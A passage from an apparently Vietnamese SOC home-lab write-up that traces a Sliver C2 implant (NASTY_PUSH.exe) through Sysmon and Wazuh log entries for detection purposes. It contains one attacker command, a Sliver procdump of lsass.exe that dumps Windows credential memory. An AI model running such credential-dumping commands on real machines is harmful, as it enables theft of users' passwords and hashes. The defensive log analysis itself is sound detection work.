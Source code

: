 ```
          "task": "3",
          "processID": "2104",
          "severityValue": "INFORMATION",
          "providerName": "Microsoft-Windows-Sysmon"
        }
      }
    },
```

SYSMON đã ghi nhận  ``event id 3`` tức là đã có kết nối từ máy client ``192.168.1.7`` đến máy của attacker ``192.168.1.8`` thông qua gia thức TCP. Event này được sinh ra từ hành động chạy file ``"image": "C:\\\\Users\\\\sale\\\\Downloads\\\\NASTY_PUSH.exe"`` của người dùng ``sale.SOC.local`` 

Như vậy có thể chắc chắn rằng đây là file mã độc đã được cài vào máy nạn nhân, và gửi một kết nối session đến C2 server của attacker.

=>> Có thể tạo rule detect trên EDR LimaCharlie để trực tiếp phản ứng kịp thời, hoặc gửi webhook đến cho SOC Analyst. Hiện tại LimaCharlie của tôi đang bị lỗi nên tôi sẽ bổ sung phần này sau!!


# Kịch bản Attacker dump file lsass.exe, tạo rule tương ứng để detect 

```
sliver (NASTY_PUSH) > procdump -n lsass.exe -s lsass3.dmp

[*] Process dump stored in: lsass3.dmp

```
Trên C2 Sliver của Attacker, đã hoàn thành dump file ``lsass.exe`` và đã được lưu vào ``lsass3.dmp`` trên máy của họ.

Kiểm tra log trên SIEM ``Wazuh`` có thể thấy rõ:

```
{
  "_index": "wazuh-archives-4.x-2025.08.28",
  "_id": "yo0G8ZgBhrI8-fmSrKqY",
  "_version": 1,
  "_score": null,
  "_source": {
    "agent": {
      "ip": "192.168.1.7",
      "name": "THE-SALER",
      "id": "001"
    },
    "manager": {
      "name": "wazuhserver"
    },
    "data": {
      "win": {
        "eventdata": {
          "subjectLogonId": "0x3e7",
          "logonGuid": "{00000000-0000-0000-0000-000000000000}",
          "targetUserName": "sale",
          "targetLogonGuid": "{00000000-0000-0000-0000-000000000000}",
          "targetInfo": "localhost",
          "subjectUserSid": "S-1-5-18",
          "processId": "0x254",
          "processName": "C:\\\\Windows\\\\System32\\\\lsass.exe",
          "subjectDomainName": "SOC",
          "targetServerName": "localhost",
          "targetDomainName": "SOC",
          "subjectUserName": "THE-SALER$"
        },
        "system": {
```